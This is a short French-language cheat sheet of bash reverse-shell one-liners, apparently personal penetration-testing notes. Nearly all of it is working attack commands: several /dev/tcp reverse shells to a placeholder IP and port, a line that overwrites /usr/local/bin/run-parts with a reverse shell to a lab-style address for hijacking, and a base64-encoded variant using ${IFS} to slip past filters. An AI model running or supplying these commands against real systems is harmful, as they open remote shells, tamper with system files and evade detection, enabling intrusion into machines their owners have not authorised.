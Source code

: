 # bash reverseshell

### Certaines versions de Bash permettent de transmettre un reverse-shell  via « /dev/tcp/ » ou « /dev/udp/ » (version compilée avec le drapeau  « –enable-net-redirections »).

```sh
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done

exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0

0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```

## le meilleur:

```sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" >  file 

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.13.131/443 0>&1'" > /usr/local/bin/run-parts

### obfuscation base 64: (bash -i >& /dev/tcp/10.10.13.25/443 0>&1)
'echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMy4yNS80NDMgMD4mMQ==|base64${IFS}-d|bash;'
```
